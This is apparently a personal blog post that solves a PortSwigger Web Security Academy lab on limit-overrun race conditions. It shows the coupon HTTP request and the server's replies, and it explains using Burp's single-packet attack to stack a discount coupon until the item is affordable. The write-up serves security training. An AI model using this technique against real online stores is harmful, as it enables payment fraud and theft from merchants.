 ```yaml
---
layout: post
title:  Race Conditions Labs
date:   2024-07-17 12:34:11 +0100
categories: race-conditions
post_id: 6
---
```


Solutions to the race conditions labs by [Portswigger](https://portswigger.net/web-security/race-conditions)

### [Lab 1: Limit overrun race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun)

### Lab 1 Task

***This lab's purchasing flow contains a race condition that enables you to purchase items for an unintended price.***

***To solve the lab, successfully purchase a Lightweight L33t Leather Jacket.***

**You can log in to your account with the following credentials: *wiener:peter*.**

### Solution

We start out with $50 in our account and the *Lightweight L33t Leather Jacket* costs $1337.00. A promo code **PROMO20** has been provided which gives a 20% discount on the purchase. The following request shows applying the promo code to the purchase:

```http
POST /cart/coupon HTTP/2
Host: 0ab300960360e780855058490095003b.web-security-academy.net
Cookie: session=bTGkDicqOTIfAhgVb6vXVlWapEox7wr4
Content-Length: 52
Cache-Control: max-age=0
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB
Upgrade-Insecure-Requests: 1
Origin: https://0ab300960360e780855058490095003b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ab300960360e780855058490095003b.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=NPSU5rNspzOT2VWiQpLcrAIjbpojcVJK&coupon=PROMO20
```

The server responds as shown below:

```http
HTTP/2 302 Found
Location: /cart
X-Frame-Options: SAMEORIGIN
Content-Length: 14

Coupon applied
```

the promo code has been applied successfully, but it's just 20% off the original price, and we only have $50 in our account. We need to find a way to purchase the jacket for $50 or less. The obvious way is if we can repeatedly use the promo code to get the price down to $50 or less, but the server will not allow us to apply the promo code more than once. We get the following response when we try to apply the promo code again:

```http
HTTP/2 302 Found
Location: /cart?couponError=COUPON_ALREADY_APPLIED&coupon=PROMO20
X-Frame-Options: SAMEORIGIN
Content-Length: 22

Coupon already applied
```

But what if we can make the above request multiple times in parallel? We could make the server apply the 20% off multiple times before it can check if the promo code has been applied before. We utilize the [single packet attack](https://portswigger.net/research/smashing-the-state-machine) by James Kettle to make the request multiple times in parallel. Lucky for us Burp repeater already has this feature built-in. All we have to do is create multiple repeater tabs and add them to the same tab group, select the single packet attack option and send group. The image below shows the setup:

![lab1](https://ethic41.github.io/assets/images/posts/race-conditions-labs/2024-07-17_13-48_lab1_repeater.png)

We get response from the that the promo code has been applied for all the requests(you may have to try this multiple times to get the desired result). Going back to the cart page we see that the price of the jacket has been reduced to less than $50. We can now proceed to purchase the jacket and solve the lab. The image below shows the cart page:

![lab1](https://ethic41.github.io/assets/images/posts/race-conditions-labs/2024-07-17_12-06_lab1_solved.png)

Lab 1 solved.


